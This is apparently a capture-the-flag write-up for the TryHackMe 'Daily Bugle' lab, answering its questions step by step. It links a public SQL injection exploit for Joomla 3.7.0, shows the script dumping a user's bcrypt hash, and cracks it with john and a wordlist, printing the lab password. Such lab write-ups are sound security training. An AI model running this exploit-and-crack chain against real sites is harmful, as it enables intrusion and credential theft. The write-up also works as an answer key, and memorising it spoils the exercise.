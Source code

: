 ### 1) What is the Joomla version?
>A) 3.7.0

- Search for exploits on Joomla 3.7.0 version 


```https://github.com/NinjaJc01/joomblah-3```

- After running the above explot on the target we get some credientials
```
kali@kali:~/Desktop/thm/daily-bugle$ cat script-output.txt 
                                                                                                                    
    .---.    .-'''-.        .-'''-.                                                           
    |   |   '   _    \     '   _    \                            .---.                        
    '---' /   /` '.   \  /   /` '.   \  __  __   ___   /|        |   |            .           
    .---..   |     \  ' .   |     \  ' |  |/  `.'   `. ||        |   |          .'|           
    |   ||   '      |  '|   '      |  '|   .-.  .-.   '||        |   |         <  |           
    |   |\    \     / / \    \     / / |  |  |  |  |  |||  __    |   |    __    | |           
    |   | `.   ` ..' /   `.   ` ..' /  |  |  |  |  |  |||/'__ '. |   | .:--.'.  | | .'''-.    
    |   |    '-...-'`       '-...-'`   |  |  |  |  |  ||:/`  '. '|   |/ |   \ | | |/.'''. \   
    |   |                              |  |  |  |  |  |||     | ||   |`" __ | | |  /    | |   
    |   |                              |__|  |__|  |__|||\    / '|   | .'.''| | | |     | |   
 __.'   '                                              |/'..' / '---'/ /   | |_| |     | |   
|      '                                               '  `'-'`       \ \._,\ '/| '.    | '.  
|____.'                                                                `--'  `" '---'   '---' 

 [-] Fetching CSRF token
 [-] Testing SQLi
('  -  Found table:', 'fb9j5_users')
('  -  Extracting users from', 'fb9j5_users')
(' [$] Found user', ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', ''])
('  -  Extracting sessions from', 'fb9j5_session')

```
### 2) What is Jonah's cracked password?

- Uisng john crack the found hash
- Its a bcrypt $2*$, Blowfish (Unix) hash

```
kali@kali:~/Desktop/thm/daily-bugle$ sudo john hash.txt --wordlist=/opt/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
No password hashes left to crack (see FAQ)
kali@kali:~/Desktop/thm/daily-bugle$ sudo john hash.txt --show
?:spiderman123
